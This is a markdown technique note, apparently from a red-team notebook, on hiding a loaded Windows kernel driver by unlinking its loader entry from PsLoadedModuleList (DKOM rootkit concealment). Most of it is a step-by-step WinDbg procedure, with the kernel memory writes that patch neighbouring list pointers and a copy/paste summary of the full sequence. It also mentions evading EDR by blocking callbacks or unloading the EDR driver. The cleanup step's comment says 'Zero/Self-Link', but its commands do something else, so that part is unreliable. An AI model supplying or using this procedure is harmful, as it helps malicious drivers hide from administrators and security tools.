

> [!abstract] Hiding Kernel Drivers via DKOM (Unlinking `PsLoadedModuleList`)
> Loading a custom kernel driver (`.sys`) is a standard way for malware and red teams to gain Ring 0 execution. However, once loaded, the driver is visible in tools like WinDbg (via the `lm` command), DriverView, or the `EnumDeviceDrivers` API. To achieve stealth, attackers use **DKOM (Direct Kernel Object Manipulation)** to "unlink" the malicious driver's metadata structure from the kernel's global linked list of loaded modules, making it completely invisible to the OS and most EDRs.
> **MITRE ATT&CK Mapping:** [T1564 - Hide Artifacts](https://attack.mitre.org/techniques/T1564/) | [T1014 - Rootkit](https://attack.mitre.org/techniques/T1014/)

![[Pasted image 20260918171653.png]]

## 🧠 The Deep Dive: How Kernel Module Hiding Works

> [!info] The `PsLoadedModuleList` & `_LDR_DATA_TABLE_ENTRY`
> When a driver is loaded into memory, the Windows kernel creates a `_DRIVER_OBJECT` structure to represent it. Attached to this is a `_LDR_DATA_TABLE_ENTRY` structure (pointed to by the `DriverSection` member of the `DRIVER_OBJECT`). 
> 
> This `_LDR_DATA_TABLE_ENTRY` acts as the driver's ID card. It contains the driver's base address, size, name, and—a `LIST_ENTRY` structure. 
> 
> The kernel maintains a global variable called `PsLoadedModuleList`. This variable points to the head of a massive circular doubly-linked list that chains every single loaded driver's `_LDR_DATA_TABLE_ENTRY` together. When you type `lm` in WinDbg or when an EDR enumerates drivers, it simply walks this linked list from start to finish.

### The "Unlinking" Logic (DKOM Hack)
To hide a driver, we perform a standard doubly-linked list removal. 
1. We locate our target driver's `LIST_ENTRY` (which contains `Flink` / Forward Link and `Blink` / Backward Link).
2. We take the **Previous** driver in the list and change its `Flink` to point to the **Next** driver.
3. We take the **Next** driver in the list and change its `Blink` to point to the **Previous** driver.
4. The target driver is now bypassed. The OS skips over it entirely when enumerating modules. 
5. We then zero out or self-link the target driver's own `LIST_ENTRY` to prevent the kernel from crashing if it accidentally tries to iterate a detached node.



---

## 🕵️‍♂️ Manual Execution (WinDbg Breakdown)

> [!example] Step-by-Step Driver Unlinking
> This requires an active Kernel Debugging session. We will hide the `ipf_acpi` driver using the exact memory addresses from your session.

#### 1. Locate the Driver Object
We use the `!drvobj` extension to find the address of the `_DRIVER_OBJECT` for `ipf_acpi`.
```text
lkd> !drvobj \Driver\ipf_acpi 7
Driver object (ffff8583b9f069a0) is for:
 \Driver\ipf_acpi
```
The `_DRIVER_OBJECT` is at `ffff8583b9f069a0`.

#### 2. Extract the `DriverSection` Pointer
We dump the `_DRIVER_OBJECT` structure using `dt` (Display Type). We are looking for the `DriverSection` pointer, which sits at offset `+0x028`.
```text
lkd> dt nt!_DRIVER_OBJECT ffff8583b9f069a0
   +0x000 Type             : 0n4
   +0x008 DeviceObject     : 0xffff8583`b9fbb790 _DEVICE_OBJECT
   ...
   +0x028 DriverSection    : 0xffff8583`b002a500 Void   <--- TARGET ACQUIRED
```
The `DriverSection` (which points to the `_LDR_DATA_TABLE_ENTRY`) is located at `0xffff8583b002a500`.

#### 3. Read the `LIST_ENTRY` (Flink and Blink)
At offset `0x000` inside the `DriverSection` is the `LIST_ENTRY` structure. We dump it as a `_LIST_ENTRY` to find the neighboring drivers.
```text
lkd> dt nt!_LIST_ENTRY 0xffff8583`b002a500
 [ 0xffff8583`b9f0ddd0 - 0xffff8583`b9f08de0 ]
   +0x000 Flink            : 0xffff8583`b9f0ddd0 _LIST_ENTRY  (Next Driver)
   +0x008 Blink            : 0xffff8583`b9f08de0 _LIST_ENTRY  (Previous Driver)
```
- **Flink** (Next driver): `0xffff8583b9f0ddd0`
- **Blink** (Previous driver): `0xffff8583b9f08de0`

#### 4. Patch the Neighbors (The Unlink)
We overwrite the Previous module's `Flink` (`+0x000`) with the Next module's address. Then, we overwrite the Next module's `Blink` (`+0x008`) with the Previous module's address. 
*(Note: In your original command, there was a typo `+0x800` instead of `+0x008`. The Blink offset is always `+0x008`).*

```text
:: 1. Patch Previous Driver's Flink to point to Next Driver
lkd> eq 0xffff8583`b9f08de0 0xffff8583`b9f0ddd0

:: 2. Patch Next Driver's Blink to point to Previous Driver
lkd> eq 0xffff8583`b9f0ddd0+0x008 0xffff8583`b9f08de0
```

#### 5. Isolate the Hidden Driver (Avoid BSOD)
To clean up the disconnected driver, we modify its own `LIST_ENTRY`. In your command, you set its `Flink` to the Next node and its `Blink` to the Previous node. (Alternatively, pointing them to themselves or zeroing them out is also common practice).
```text
lkd> eq 0xffff8583`b002a500 0xffff8583`b9f0ddd0
lkd> eq 0xffff8583`b002a500+0x008 0xffff8583`b9f08de0
```

---

## 👨‍💻 Reverse Engineer Quick Glance (Command Summary)

> [!quote] WinDbg Command Flow (Copy/Paste Reference)
> If you are analyzing this technique, here is the exact logical flow of commands executed in the debugger:
> 
> ```text
> :: 1. Find the DRIVER_OBJECT address of the target driver
> !drvobj \Driver\ipf_acpi 7
> 
> :: 2. Dump the DRIVER_OBJECT to find the 'DriverSection' pointer (at +0x028)
> dt nt!_DRIVER_OBJECT ffff8583b9f069a0
> 
> :: 3. Dump the LIST_ENTRY inside the DriverSection to find Next (Flink) and Prev (Blink)
> dt nt!_LIST_ENTRY 0xffff8583`b002a500
> 
> :: 4. UNLINK: Patch Prev's Flink (+0x000) to point to Next
> eq 0xffff8583`b9f08de0 0xffff8583`b9f0ddd0
> 
> :: 5. UNLINK: Patch Next's Blink (+0x008) to point to Prev
> eq 0xffff8583`b9f0ddd0+0x008 0xffff8583`b9f08de0
> 
> :: 6. CLEANUP: Zero/Self-Link the hidden driver's LIST_ENTRY to prevent BSOD
> eq 0xffff8583`b002a500 0xffff8583`b9f0ddd0
> eq 0xffff8583`b002a500+0x008 0xffff8583`b9f08de0
> ```

> [!danger] OPSEC & Modern Mitigations
> - **PatchGuard:** Microsoft's Kernel Patch Protection (PatchGuard) periodically validates the integrity of the `PsLoadedModuleList`. Modifying this list is highly volatile and a single mistyped pointer will instantly trigger a BSOD.
> - **EDR Callbacks:** Modern EDRs do not rely solely on walking the module list. They register `PsSetLoadImageNotifyRoutine` callbacks. This callback fires *before* DKOM can be applied, meaning the EDR already knows the driver was loaded. To bypass this, advanced rootkits block the callback mechanism itself or unload the EDR's driver first.

